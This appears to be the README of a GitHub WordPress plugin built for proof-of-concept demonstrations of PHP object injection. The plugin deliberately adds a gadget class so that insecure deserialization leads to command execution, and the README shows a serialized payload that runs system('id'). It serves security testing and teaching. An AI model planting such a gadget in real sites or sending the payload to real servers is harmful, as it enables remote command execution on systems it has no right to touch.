 # WP Object Injection Proof of Concept

This is a simple plugin to help in PoC's of PHP Object Injection in Wordpress.

## How use

First download the **WP-Object-Injection-PoC** plugin on your "wp-content/plugin" directory and then activate in your wordpress dashboard. 

Now you can easy do the PoC of insecure deserialization without worrying about POP chains.

## Payload Example
```php
echo serialize(new ObjectInjection("system","id"));
// O:15:"ObjectInjection":2:{s:20:"ObjectInjectioncmd";s:2:"id";s:20:"ObjectInjectionfcn";s:6:"system";}
```
